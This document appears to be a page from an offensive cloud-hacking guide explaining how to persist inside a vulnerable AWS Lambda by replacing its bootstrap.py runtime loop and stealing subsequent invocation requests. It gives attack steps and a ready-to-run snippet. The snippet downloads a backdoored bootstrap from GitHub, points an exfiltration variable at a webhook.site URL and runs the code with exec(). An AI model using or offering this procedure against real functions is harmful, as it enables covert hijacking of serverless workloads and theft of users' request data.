 # AWS - Steal Lambda Requests

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is a process outside the container that **send** **invocations** to the **init** process.
2. The init process listens on port **9001** exposing some interesting endpoints:
   * **`/2018-06-01/runtime/invocation/next`** – get the next invocation event
   * **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – return the handler response for the invoke
   * **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – return an execution error
3. **bootstrap.py** has a loop getting invocations from the init process and calls the users code to handle them (**`/next`**).
4. Finally, **bootstrap.py** sends to init the **response**

Note that bootstrap loads the user code as a module, so any code execution performed by the users code is actually happening in this process.

## Stealing Lambda Requests

The goal of this attack is to make the users code execute a malicious **`bootstrap.py`** process inside the **`bootstrap.py`** process that handle the vulnerable request. This way, the **malicious bootstrap** process will start **talking with the init process** to handle the requests while the **legit** bootstrap is **trapped** running the malicious one, so it won't ask for requests to the init process.&#x20;

This is a simple task to achieve as the code of the user is being executed by the legit **`bootstrap.py`** process. So the attacker could:

* **Send a fake result of the current invocation to the init process**, so init thinks the bootstrap process is waiting for more invocations.
  * A request must be sent to **`/${invoke-id}/response`**&#x20;
  * The invoke-id can be obtained from the stack of the legit **`bootstrap.py`** process using the [**inspect**](https://docs.python.org/3/library/inspect.html) python module (as [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) or just requesting it again to **`/2018-06-01/runtime/invocation/next`** (as [proposed here](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Execute a malicious **`boostrap.py`** which will handle the next invocations
  * For stealthiness purposes it's possible to send the lambda invocations parameters to an attackers controlled C2 and then handle the requests as usual.
  * For this attack, it's enough to get the original code of **`bootstrap.py`** from the system or [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), add the malicious code and run it from the current lambda invocation.

### Attack Steps

1. Find a **RCE** vulnerability.
2. Generate a **malicious** **bootstrap** (e.g. [https://raw.githubusercontent.com/khulnasoft/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/khulnasoft/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Execute** the malicious bootstrap.

You can easily perform these actions running:

```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/khulnasoft/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

For more info check [https://github.com/khulnasoft/lambda\_bootstrap\_switcher](https://github.com/khulnasoft/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
